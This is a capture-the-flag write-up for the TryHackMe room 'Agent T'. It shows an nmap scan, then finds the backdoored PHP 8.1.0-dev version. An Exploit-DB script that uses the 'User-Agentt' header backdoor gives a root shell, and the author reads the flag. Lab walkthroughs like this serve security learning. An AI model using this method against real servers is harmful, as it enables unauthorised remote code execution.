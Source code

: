 <p align="center">
  THM : Agent T<br>
  Difficulty : Easy<br>
  <img src="https://i.imgur.com/oWDIySa.jpg">
</p>

## Summary

- [Nmap scan](#nmap-scan)
- [Website enumeration](#website-enumeration)
- [Exploiting PHP 8.1.0-dev](#exploiting-php-810-dev)
- [Conclusion](#conclusion)

## Nmap scan

Let's start with an agressive [nmap](https://nmap.org/) scan against the target :  
```
# Nmap 7.80 scan initiated Mon Oct 24 12:38:20 2022 as: nmap -A -p- -oN nmapResults.txt 10.10.222.61
Nmap scan report for 10.10.222.61
Host is up (0.066s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 24 12:39:08 2022 -- 1 IP address (1 host up) scanned in 48.33 seconds
```

There is only one open port, where we can access a website (port 80). Also, we have the PHP version (8.1.0-dev).

## Website enumeration

Let's take a look at the website using a web browser :  
![](https://i.imgur.com/AMvGQgu.jpg)  

This is an admin dashboard. Almost all of the buttons in this dashboard are not working and everything seems to be just cosmetics.

## Exploiting PHP 8.1.0-dev

The only information we have that seems to be useful to exploit this webserver is the PHP version which is outdated. We can search for available exploits for this PHP 
version on [Exploit-DB](https://www.exploit-db.com/). If we search for "PHP 8.1.0-dev", there is only one result :  
![](https://i.imgur.com/RhUl47F.jpg)  

This exploit leads to a RCE (Remote Code Execution), we may be able to get a reverse shell using this exploit. Let's take a look at it :  
![](https://i.imgur.com/H0DVdY8.jpg)  

This exploit uses a backdoor present in this PHP version. The backdoor can be used by adding an HTTP header named `User-Agentt` containing a payload. Let's download 
this exploit and use it against the target :  
```
attacker@AttackBox:~/Documents/THM/CTF/Agent_T$ python3 49933.py 
Enter the full host url:
http://10.10.222.61/ 

Interactive shell is opened on http://10.10.222.61/ 
Can't acces tty; job crontol turned off.
$ whoami
root

$
```

And we already have a shell as root ! Let's get the flag :  
```
$ ls /
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

$ cat /flag.txt
flag{******************************}
```

## Conclusion

This room was very easy. It shows how it can be dangerous if someone find a way to put malicious code in a program that many users will download. Thanks for this room ! And 
thanks for reading my write ups !
